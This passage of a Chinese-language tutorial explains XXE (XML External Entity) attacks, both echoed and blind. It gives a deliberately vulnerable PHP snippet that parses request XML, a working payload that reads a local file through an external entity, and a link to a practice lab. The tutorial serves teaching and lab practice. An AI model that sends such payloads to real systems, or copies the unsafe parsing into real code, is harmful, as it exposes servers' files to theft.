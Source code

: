 [![](assets/1698897471-ce50cacf069548f39a4ba9e47ffbe63d.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151423-5dc4ee0c-14d3-1.jpg)

#### XXE 常见利用方式

与 SQL 相似，XXE 漏洞也分为有回显和无回显  
有回显，可以直接在页面中看到 payload 的执行结果或现象。  
无回显，又称为 blind xxe，可以使用外带数据 (OOB) 通道提取数据。即可以引用远程服务器上的 XML 文件读取文件。

##### 1、读取任意文件

首先准备一个有 XXE 漏洞的文件，这里以 php 文件为例  
示例代码

```bash
<?php
$xml = simplexml_load_string($_REQUEST['xml']);
print_r($xml);//注释掉该语句即为无回显的情况
?>
```

构造 payload

```bash
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY file SYSTEM "file:///d://qwzf.txt" >
]>
<root>
<name>&file;</name>
</root>
```

[![](assets/1698897471-43e7c6a750bef5640711b905ab2af2d8.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20191202151458-73114cba-14d3-1.jpg)  
读取文件，需 URL 编码后执行。  
通过**构造外部实体 payload**，在 xml 中 `&file ;` 变成了外部文件`qwzf.txt`中内容，导致敏感信息泄露。  
**靶场练习**  
使用一下靶场练习回显读取文件和无回显读取文件：[xxe-lab](https://github.com/c0ny1/xxe-lab)  